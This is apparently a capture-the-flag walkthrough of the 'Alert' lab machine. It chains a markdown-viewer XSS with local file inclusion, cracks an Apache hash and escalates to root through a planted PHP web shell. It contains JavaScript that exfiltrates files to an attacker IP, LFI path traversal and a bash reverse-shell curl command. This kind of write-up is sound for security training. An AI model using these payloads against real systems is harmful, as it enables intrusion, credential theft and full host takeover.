










Alert
Initial Enumeration¶
Nmap Scan¶
We first run an Nmap scan to discover open ports and available services.
$ sudo nmap -p22,80 -sC -sV -oN nmap-full 10.129.92.99
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-03 17:45 CET
Nmap scan report for 10.129.92.99
Host is up (0.099s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 7e:46:2c:46:6e:e6:d1:eb:2d:9d:34:25:e6:36:14:a7 (RSA)
| 256 45:7b:20:95:ec:17:c5:b4:d8:86:50:81:e0:8c:e8:b8 (ECDSA)
|_ 256 cb:92:ad:6b:fc:c8:8e:5e:9f:8c:a2:69:1b:6d:d0:f7 (ED25519)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://alert.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.43 seconds
- SSH on port 22/TCP
- HTTP on port 80/TCP
Port 80/TCP redirects us to alert.htb which we add to /etc/hosts file.
Port 80/TCP¶
Enumerate the website. We see index.php upon visiting, so we will fuzz for directories and endpoints with .php using Ffuf.
$ ffuf -u http://alert.htb/FUZZ -e php -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -ic
/'___\ /'___\ /'___\
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\ \ \_\ \ \____/ \ \_\
\/_/ \/_/ \/___/ \/_/
v2.1.0-dev
________________________________________________
:: Method : GET
:: URL : http://alert.htb/FUZZ
:: Wordlist : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
:: Extensions : php
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________
[Status: 302, Size: 660, Words: 123, Lines: 24, Duration: 42ms]
uploads [Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 34ms]
css [Status: 301, Size: 304, Words: 20, Lines: 10, Duration: 129ms]
messages [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 63ms]
<--SNIP-->
We will see a few directories and .php files. Notable here are /uploads and /messages directory as well as messages.php endpoint. We can't see anything upon visit, due to either 403 Access denied or just a blank page on messages.php.
While the Ffuf scan was running we manually enumerate the website. An administrator is frequently visiting the messages posted to Contact Us.

We may abuse this by finding an XSS vulnerability, since other manual enumeration didn't yield much. However need to note no cookies are in use, so might find another way to access sensitive data.
Exploitation¶
Testing XSS¶
Trying simple XSS payloads we will find XSS in the Markdown Viewer.
Upon clicking View Markdown we get a response back on our listener.
10.10.16.35 - - [03/Dec/2024 19:27:46] code 404, message File not found
10.10.16.35 - - [03/Dec/2024 19:27:46] "GET /SOMETHING HTTP/1.1" 404 -
We can also get sharable link to it through Share Markdown, triggering the XSS again upon visit.

Upon clicking it, we can more easily reveal the redirect link:
Another XSS vulnerability can be found in the Contact Us message field:

$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.92.99 - - [03/Dec/2024 18:15:35] code 404, message File not found
10.129.92.99 - - [03/Dec/2024 18:15:35] "GET /SOMETHING'</script> HTTP/1.1" 404 -
Important to note is that we see the end of the script tag being encoded. So we are not able to directly abuse this.
However we can also post links in message field of Contact Us.

The administrator will visit these links.
10.129.92.99 - - [03/Dec/2024 19:30:35] code 404, message File not found
10.129.92.99 - - [03/Dec/2024 19:30:35] "GET /SOMETHING HTTP/1.1" 404 -
With our previous enumeration of the web page and this discovery, we are able to exfiltrate data, by having the Administrator visit a page not accessible to us such as messages.php and sending the page content to our attacking machine. However we need to use the sharable Markdown link we discovered previously to not get the script tags messed up.
Restricted Page Exfiltration via XSS¶
We will prepare an exfiltration script that we will serve on our attack machine with an HTTP server. This script will retrieve the contents of messages.php and send them encoded in base64 format back to our attack machine.
Our exfil script will look like this and we will call it script.js:
var xhr = new XMLHttpRequest();
xhr.open('GET', '/messages.php', false);
xhr.send();
var exfil = new XMLHttpRequest();
exfil.open("GET", "http://10.10.16.35:80/exfil?r=" + btoa(xhr.responseText), false);
exfil.send();
Then we will host our web server again on 80/TCP in the directory of the script.js file.
Following this we set up our markdown XSS payload, which serves to load our malicious script.js. We will call it payload.md and put the following as its contents:
Next generate the markdown file containing this on the website.

Get the sharable link for it by clicking bottom right. Then we copy paste the link into the message field of Contact Us with arbitrary email.

We hit Send and will have successfully exfiltrated the data of messages.php page base64 encoded.
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.92.99 - - [03/Dec/2024 19:41:06] "GET /script.js HTTP/1.1" 200 -
10.129.92.99 - - [03/Dec/2024 19:41:07] code 404, message File not found
10.129.92.99 - - [03/Dec/2024 19:41:07] "GET /exfil?r=PGgxPk1lc3NhZ2VzPC9oMT48dWw+PGxpPjxhIGhyZWY9J21lc3NhZ2VzLnBocD9maWxlPTIwMjQtMDMtMTBfMTUtNDgtMzQudHh0Jz4yMDI0LTAzLTEwXzE1LTQ4LTM0LnR4dDwvYT48L2xpPjwvdWw+Cg== HTTP/1.1" 404 -
We decode it to make it human-readable.
$ echo 'PGgxPk1lc3NhZ2VzPC9oMT48dWw+PGxpPjxhIGhyZWY9J21lc3NhZ2VzLnBocD9maWxlPTIwMjQtMDMtMTBfMTUtNDgtMzQudHh0Jz4yMDI0LTAzLTEwXzE1LTQ4LTM0LnR4dDwvYT48L2xpPjwvdWw+Cg==' | base64 -d
<h1>Messages</h1><ul><li><a href='messages.php?file=2024-03-10_15-48-34.txt'>2024-03-10_15-48-34.txt</a></li></ul>
We see parameter called file and a .txt file. When exfiltrating this file by modifying the script.js to request it, it will be empty.
XSS to LFI¶
So the next step is to try what we can do with the file parameter of messages.php. We will test for a local file inclusion vulnerability. This being Linux machine we try to exfiltrate the /etc/passwd file. We combine the above XSS vulnerability with a local file inclusion vulnerability by adjusting the script.js like the following:
var xhr = new XMLHttpRequest();
xhr.open('GET', '/messages.php?file=../../../../../../../etc/passwd', false);
xhr.send();
var exfil = new XMLHttpRequest();
exfil.open("GET", "http://10.10.16.35:80/exfil?r=" + btoa(xhr.responseText), false);
exfil.send();
And we repeat the initial exfiltration process again. This time we catch the following base64 encoded data on our web server.
10.129.92.99 - - [03/Dec/2024 19:45:43] "GET /script.js HTTP/1.1" 200 -
10.129.92.99 - - [03/Dec/2024 19:45:44] code 404, message File not found
10.129.92.99 - - [03/Dec/2024 19:45:44] "GET /exfil?r=PHByZT5yb<--SNIP-->Cg== HTTP/1.1" 404 -
We decode it again and can successfully confirm the local file inclusion vulnerability:
$ echo 'PHByZT5yb<--SNIP-->Cg==' | base64 -d
<pre>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
<--SNIP-->
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
albert:x:1000:1000:albert:/home/albert:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
david:x:1001:1002:,,,:/home/david:/bin/bash
</pre>
Next we extract other sensitive information. We start with the web server configuration.
Nmap scan revealed this is Apache httpd 2.4.41. So we hunt for Apache configuration files. The first one would be sites-enabled. Adjusting the script.js first:
var xhr = new XMLHttpRequest();
xhr.open('GET', '/messages.php?file=../../../../../../../etc/apache2/sites-enabled/000-default.conf', false);
xhr.send();
var exfil = new XMLHttpRequest();
exfil.open("GET", "http://10.10.16.35:80/exfil?r=" + btoa(xhr.responseText), false);
exfil.send();
Once again repeating steps, we get the file:
<VirtualHost *:80>
ServerName alert.htb
DocumentRoot /var/www/alert.htb
<Directory /var/www/alert.htb>
Options FollowSymLinks MultiViews
AllowOverride All
</Directory>
RewriteEngine On
RewriteCond %{HTTP_HOST} !^alert\.htb$
RewriteCond %{HTTP_HOST} !^$
RewriteRule ^/?(.*)$ http://alert.htb/$1 [R=301,L]
ErrorLog ${APACHE_LOG_DIR}/error.log
CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
<VirtualHost *:80>
ServerName statistics.alert.htb
DocumentRoot /var/www/statistics.alert.htb
<Directory /var/www/statistics.alert.htb>
Options FollowSymLinks MultiViews
AllowOverride All
</Directory>
<Directory /var/www/statistics.alert.htb>
Options Indexes FollowSymLinks MultiViews
AllowOverride All
AuthType Basic
AuthName "Restricted Area"
AuthUserFile /var/www/statistics.alert.htb/.htpasswd
Require valid-user
</Directory>
ErrorLog ${APACHE_LOG_DIR}/error.log
CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
This reveals the Vhost statistics.alert.htb, so we add it to /etc/hosts. Upon visiting the site we get a basic http authentication prompt. So we keep this in mind if we find credentials along the way.

The other interesting information obtained through the 000-default.conf file is the AuthUserFile (.htpassword). This may contain sensitive information. With the full path to it revealed, we exfiltrate it by adjusting the script.js once again:
var xhr = new XMLHttpRequest();
xhr.open('GET', '/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd', false);
xhr.send();
var exfil = new XMLHttpRequest();
exfil.open("GET", "http://10.10.16.35:80/exfil?r=" + btoa(xhr.responseText), false);
exfil.send();
We get the following contents.
This is the APR1 hash format for Apache. We crack the hash with Hashcat:
$ ./hashcat hashes/alert/statistics.hash rockyou.txt -m 1600 --username
hashcat (v6.2.6-851-g6716447df) starting
Successfully initialized the NVIDIA main driver CUDA runtime library.
<--SNIP-->
Dictionary cache built:
* Filename..: rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec
$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/:manchesterunited
Successfully retrieve cleartext credentials albert:manchesterunited.
Try login on statistics.alert.htb succeeds but nothing too interesting.

However we can also successfully authenticate to the alert.htb host via SSH.
$ ssh albert@alert.htb
<--SNIP-->
Last login: Tue Nov 19 14:19:09 2024 from 10.10.14.23
albert@alert:~$ id
uid=1000(albert) gid=1000(albert) groups=1000(albert),1001(management)
albert@alert:~$ hostname
alert
Host Enumeration¶
Initial enumeration shows one other user on machine:
$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
albert:x:1000:1000:albert:/home/albert:/bin/bash
david:x:1001:1002:,,,:/home/david:/bin/bash
Also an interesting SUID binary chrome-sandbox, that however sadly cannot be exploited and is an SUID by default:
$ find / -perm -4000 2>/dev/null
/opt/google/chrome/chrome-sandbox
/usr/bin/chfn
/usr/bin/mount
/usr/bin/su
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/gpasswd
/usr/bin/fusermount
/usr/bin/passwd
/usr/bin/umount
/usr/bin/at
/usr/bin/chsh
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
We just run linpeas and we will see port 8080/TCP being open locally on the alert.htb host.
$ ./linpeas.sh
<--SNIP-->
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports
tcp 0 0 127.0.0.1:8080 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.53:53 0.0.0.0:* LISTEN -
tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN -
tcp6 0 0 :::80 :::* LISTEN -
tcp6 0 0 :::22 :::* LISTEN -
<--SNIP-->
Local Port Forwarding with Ligolo-ng¶
We will forward this port to our attack machine. We could just use SSH, however decide to use ligolo.
Transfer agent over to alert machine.
And on attack machine:
Enumerating Local Web Application¶
We can now visit the site locally on our attack machine.

Nothing too interesting yet. So we further enumerate the host and looking at /opt directory we find the potential web root for the site hosted locally on port 8080/TCP:
$ ls -al
total 16
drwxr-xr-x 4 root root 4096 Oct 12 00:58 .
drwxr-xr-x 18 root root 4096 Nov 14 10:55 ..
drwxr-xr-x 3 root root 4096 Mar 8 2024 google
drwxrwxr-x 7 root root 4096 Oct 12 01:07 website-monitor
$ ls -al
total 96
drwxrwxr-x 7 root root 4096 Oct 12 01:07 .
drwxr-xr-x 4 root root 4096 Oct 12 00:58 ..
drwxrwxr-x 2 root management 4096 Dec 3 19:46 config
drwxrwxr-x 8 root root 4096 Oct 12 00:58 .git
drwxrwxr-x 2 root root 4096 Oct 12 00:58 incidents
-rwxrwxr-x 1 root root 5323 Oct 12 01:00 index.php
-rwxrwxr-x 1 root root 1068 Oct 12 00:58 LICENSE
-rwxrwxr-x 1 root root 1452 Oct 12 01:00 monitor.php
drwxrwxrwx 2 root root 4096 Oct 12 01:07 monitors
-rwxrwxr-x 1 root root 104 Oct 12 01:07 monitors.json
-rwxrwxr-x 1 root root 40849 Oct 12 00:58 Parsedown.php
-rwxrwxr-x 1 root root 1657 Oct 12 00:58 README.md
-rwxrwxr-x 1 root root 1918 Oct 12 00:58 style.css
drwxrwxr-x 2 root root 4096 Oct 12 00:58 updates
See website directory /config that management group has access too, which our current user albert is part of.
$ ls -al
total 16
drwxrwxr-x 2 root management 4096 Dec 3 19:46 .
drwxrwxr-x 7 root root 4096 Oct 12 01:07 ..
-rwxrwxr-x 1 root management 49 Dec 3 20:01 configuration.php

Privilege Escalation¶
The management group further has read, write and execute rights on this directory. So we decide to drop a PHP web shell in it. We add the following PHP script to the directory and call it shelly.php:
Now we can successfully execute commands using it and we also see the application running as root user.
So we will get a reverse shell by first starting our listener.
We then use Curl with --data-encode to URL encode and --get to specify the method:
$ curl -s "240.0.0.1:8080/config/shelly.php" --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.16.35/7777 0>&1'" --get
A reverse shell connection as root on the alert.htb host is successfully established.
connect to [10.10.16.35] from (UNKNOWN) [10.129.92.99] 38482
bash: cannot set terminal process group (984): Inappropriate ioctl for device
bash: no job control in this shell
root@alert:/opt/website-monitor/config# id
uid=0(root) gid=0(root) groups=0(root)
root@alert:/opt/website-monitor/config# hostname
hostname